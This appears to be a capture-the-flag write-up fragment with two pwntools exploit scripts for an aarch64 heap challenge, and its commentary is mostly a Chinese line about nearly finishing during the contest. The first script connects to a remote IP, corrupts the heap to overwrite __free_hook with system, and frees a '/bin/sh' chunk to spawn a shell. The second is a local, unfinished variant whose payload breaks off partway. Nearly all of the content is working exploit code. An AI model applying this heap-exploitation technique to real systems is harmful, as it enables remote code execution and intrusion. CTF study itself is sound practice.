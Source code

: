 ## getshell

```python
from pwn import *
context(arch='aarch64')
io = remote('8.140.179.11', 13422)
libc = ELF("./lib/libc.so.6")
libc.address = 0x4000845000

data_arr    = []
pack        = lambda op, *args       :  (op + ''.join(p8(i) for i in args))
init_map    = lambda x,y             :  (pack("M", x, y))
add_over    = lambda x,y             :  (pack("+", x, y,0x02))
free        = lambda x,y             :  (pack("/", x, y))
malloc2     = lambda x,y,size,data   :  (pack("*", x, y,size & 0xFF,size >> 8),data_arr.append(data))
malloc      = lambda x,y,size,data   :  (malloc2(x,y,size,data)[0])

payload  = init_map(0x10,0x10)
payload += add_over(0x0f,0x08)
payload += malloc(0x01,0x01,0x10,"")
payload += malloc(0x02,0x01,0x10,"")
payload += malloc(0x03,0x01,0x10,"")
payload += free(0x02,0x01)
payload += 'd'*8+'sw'*21+'s'*16
payload += free(0x01,0x01)
payload += malloc(0x02,0x01,0x30,p64(0)*4+p64(libc.symbols['__free_hook']))
payload += malloc(0x02,0x02,0x10,"/bin/sh")
payload += malloc(0x02,0x03,0x10,p64(libc.symbols['system']))
payload += free(0x02,0x02)

io.sendlineafter('>', payload)
sleep(0.1)

for i in data_arr:
    io.sendline(i)
    sleep(0.1)

io.interactive()
```

## 比赛exp

> 比赛时差一点调通的exp，自己手慢

```python
from pwn import *
context(arch='aarch64',log_level='debug')
io = process(["qemu-aarch64","-L",".","./pwn"])

libc = ELF('./lib/libc.so.6')
libc.address = 0x4000865000

payload  =  "M\x10\x10"
payload  += '+\x0f\x08\x02'
payload  += '*\x01\x01\x10\x00'
payload  += '*\x01\x02\x10\x00'
payload  += '*\x01\x03\x10\x00'
payload  += '*\x01\x04\x10\x00'
payload  += '/\x01\x02'
payload  += 'd'*8
payload  += 'sw'*21
payload  += 's'*16
payload  += '/\x01\x01'
```